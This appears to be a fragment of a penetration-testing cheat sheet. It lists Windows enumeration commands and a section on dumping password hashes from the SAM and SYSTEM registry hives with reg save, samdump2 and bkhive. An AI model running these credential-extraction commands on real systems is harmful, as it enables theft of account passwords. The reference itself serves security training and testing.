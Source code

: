 ARP table

`arp -A` 

## List process

`tasklist`

## Query current drives on system

`fsutil fsinfo drives`


## RDP

list users that can use RDP

`qwinsta`






---
File: /CheatSheets/windows/hashdump/readme.md
---

# Windows HashDump without metasploit

##  Windows Passwords

### Reg Commands to get passwords' file

System file 

`reg save HKLM\System system.hive`

SAM File 

`reg save HKLM\SAM sam.hive`


### HASHDUMP

`samdump2 system.hive sam.hive`


#### Windows Repair

Backup files < Windows 2003

`c:\windows\repair`

Donwload sam and system.

`bkhive system key.txt`
`samdump2 sam key.txt`
